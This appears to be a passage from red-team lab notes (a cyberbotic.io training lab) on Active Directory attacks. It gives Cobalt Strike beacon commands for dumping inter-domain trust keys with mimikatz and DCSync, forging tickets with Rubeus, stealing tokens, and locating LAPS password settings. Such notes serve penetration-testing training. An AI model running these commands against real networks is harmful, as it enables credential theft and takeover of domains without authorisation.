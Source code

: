 ```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection

# To be execute on the DC having outbound trust
beacon> run hostname
beacon> mimikatz lsadump::trust /patch

# OR, Use DCSync to get the ntlm hash of TDO object remotely
beacon> powerpick Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid
beacon> mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}

# There is a "trust account" which gets created in trusted domain (msp.com) by the name of trusting domain (CYBER$), it can be impersonated to gain normal user access (/rc4 is the NTLM hash of TDO Object)

beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap

# Inject the ticket
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:MSP /username:CYBER$ /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

beacon> steal_token 5060
beacon> run klist
beacon> powerpick Get-Domain -Domain msp.org
```
## LAPS
```powershell
# Check for presence of LAPS

# LAPS client installed on local machine
beacon> ls C:\Program Files\LAPS\CSE

# Computer Object having ms-Mcs-AdmPwd and ms-Mcs-AdmPwdExpirationTime attribute set
powerpick Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName

# LAPS configuration deplayed through GPO
beacon> powerpick Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Download LAPS configuration
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol

# Parse the LAPS GPO Policy file downloaded in previous step
PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

# Identify the principals who have read right to LAPS password

```